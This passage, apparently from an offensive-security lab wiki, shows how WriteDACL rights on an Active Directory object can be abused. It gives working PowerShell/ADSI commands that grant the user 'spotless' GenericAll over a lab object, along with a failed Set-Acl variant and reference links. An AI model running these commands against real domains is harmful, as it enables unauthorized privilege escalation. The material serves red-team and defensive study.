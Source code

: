 ```csharp
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-29-27.png>)

And you have a `WriteDACL` on that AD object:

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-07-16.png>)

...you can give yourself [`GenericAll`](abusing-active-directory-acls-aces.md#genericall-on-group) privileges with a sprinkle of ADSI sorcery:

```csharp
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Which means you now fully control the AD object:

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-02-49.png>)

This effectively means that you can now add new users to the group.

Interesting to note that I could not abuse these privileges by using Active Directory module and `Set-Acl` / `Get-Acl` cmdlets:

```csharp
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```

![](<../../.gitbook/assets/Screenshot from 2018-11-10 19-09-08.png>)

## References

{% embed url="https://wald0.com/?p=112" %}

{% embed url="https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=netframework-4.7.2" %}

{% embed url="https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/" %}

{% embed url="https://adsecurity.org/?p=3658" %}
